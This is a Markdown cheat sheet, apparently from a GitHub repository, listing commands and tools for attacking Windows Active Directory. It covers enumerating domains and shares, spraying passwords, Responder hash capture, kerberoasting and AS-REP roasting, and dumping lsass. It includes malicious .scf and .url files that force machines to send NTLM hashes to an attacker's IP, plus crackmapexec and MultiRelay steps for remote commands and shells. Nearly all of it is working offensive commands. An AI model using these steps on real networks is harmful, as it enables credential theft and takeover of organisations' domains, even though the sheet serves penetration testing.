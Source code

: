 ## Enumeration
* _attempt DNS zone transfer_
```
nslookup
set type=any
ls -d {domain.local}
```
* [PingCastle](https://pingcastle.com) _Use to find common active directory vulnerabilities and misconfigurations_
* `adcollector.exe` _enumerate interseting info from active directory domain_
* `Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -Properties 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime' | select dnshostname,ms-mcs-admpwd` _Try to fetch LAPS passwords from active directory if permissions aren't properly configured_
* [bloodhound](https://www.pentestpartners.com/security-blog/bloodhound-walkthrough-a-tool-for-many-tradecrafts/) _Use to map a path to domain admin.  [unofficial docker image](https://github.com/belane/docker-bloodhound)_
* _active directory and group policy snapins can be used by any domain user if they are installed_
* `crackmapexec smb {ip range} -u {username} -p {password}` _scan an ip or range with valid creds to see where it's an admin or at least a valid user_
* `crackmapexec smb {ip range} -u {username} -p {password} --shares` _enumerate shares that user has access to_
* `SharpShares.exe shares` _enumerate readable shares that user has access to_
* [PowerHuntShares](https://github.com/NetSPI/PowerHuntShares) _tool to enumerate shares that user has access to_
* `/usr/share/responder/tools/RunFinger.py -i {ip/mask}` _scan for machines with smb signing off so hashes can be passed instead of cracked_
* `crackmapexec smb {ip range} -u {username} -H {hash} --local-auth` _Check an ip range for access using a local admin account and its uncracked hash.  SMB singing must be disabled on the target_

## Getting Creds
* `findstr /S /I cpassword \\{domain}\sysvol\{domain}\policies\*.xml` _check group policy for passwords that can be easily decrypted_
* `crackmapexec smb {ip} -u {users.txt} -p {password}` _spray all user accounts in users.txt with a single popular password_
* `responder -I eth0 -wrf` _Start responder on eth0. Listen for netbios, and wpad_
* _Example index.scf file that can force any machine that views a share to send hash to attackers responder_
```
[Shell]
Command=1
IconFile=\\{attacker ip}\whatever.ico
[Taskbar]
Command=ToggleDesktop
```
* _Example .url file that when clicked will send hash to attackers responder_
```
[InternetShortcut]
URL=file://{attacker ip}/@whatever
```
* `smbclient \\\\{ip}\\{share name} -U {domain}/{user}` _connect to smb share with valid creds_
* `put /{path}/index.scf ./index.scf` _upload malicous scf file to root of connected smb share_
* `rubeus.exe kerberoast /simple /outfile:kerberoast.txt`  _[kerberoast](https://room362.com/post/2016/kerberoast-pt1/) stealing crackable tickets from AD using kerberoasting. htb machine [Active](https://0xrick.github.io/hack-the-box/active/) is an example of this_
* _alternative kerberoast method_
```
Import-Module powerview.ps1
Invoke-Kerberoast -OutputFormat {hashcat/john} | Select-Object -ExpandProperty hash
```
* `rubeus.exe asreproast /format:{hashcat/john} /nowrap /outfile:asreproast.txt` _stealing crackable tickets from AD using asreproasting for any accounts that dont require kerberos preauth_
* `rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump “<lsass pid> lsass.dmp full”` _Dump the lsass process to a file so it can be transfered to attacked for mimikatz.  Useful after forcing clear text lsass creds.  See tutorial page_
* [lsassy](https://github.com/Hackndo/lsassy) _Remotely dump secrets from lsass process_



## Remote Commands
* `crackmapexec smb {ip range} -u {username} -p {password} -x {cmd}`  _run command on remote machine using valid creds_
* `/usr/share/responder/tools/MultiRelay.py -t {ip} -u ALL` _Responder must be running with smb and http off.  This will listen for admin hashes and try to relay them to the specified ip to spawn a remote shell.  SMB signing must be disabled on the target [some instructions here](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)_
